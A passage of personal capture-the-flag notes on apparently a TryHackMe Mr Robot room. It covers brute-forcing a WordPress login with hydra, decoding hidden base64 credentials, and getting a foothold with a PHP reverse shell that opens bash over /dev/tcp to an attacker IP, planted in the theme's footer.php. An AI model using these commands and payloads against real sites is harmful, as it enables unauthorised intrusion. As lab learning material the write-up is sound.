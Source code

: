 now try again, but set username to `Elliot` and cycle through the `./fsocity.dic` file in the password field (change the error message)

`hydra -l Elliot -P ./fsocity.dic 10.10.235.193 -V http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:The password you entered for the username' -o hydra-password.txt`

Got a valid username, but no luck on the password.

:::tip

hint from walkthrough: `/license`.
hint from THM "white coloured font".

:::

I look through the gobuster results again and see this `http://10.10.243.224/license`

I visit this page and see this:

```html
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
```

But if you inspect it and you see the hidden text:

```bash
do you want a password or something? ZWxsaW90OkVSMjgtMDY1Mgo=
```

looks base64:

```bash
442 💀 ± ➤ echo ZWxsaW90OkVSMjgtMDY1Mgo= | base64 -d
elliot:ER28-0652
```

Now, I'm thinking "PHP reverse shell" to get a foothold.

### Reverse Shell

From [highon.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell)

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>
```

payload

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"10.11.55.83"/443 0>&1'");?>
```

this one kept loading/freezing, need to tweak it maybe.

this person has some great notes [n0a110w](https://n0a110w.github.io/notes/security-stuff/shells/php.html) and from their blog I ended up using [pentestmonkey php reverse shell](git clone [https://github.com/pentestmonkey/php-reverse-shell.git](https://github.com/pentestmonkey/php-reverse-shell.git)).

:::tip
We need to be able to edit php source code, not html pages, so you need to hit the editor in the Theme section. I replaced the entire `footer.php` file with the pentestmonkey reverse shell file.
:::
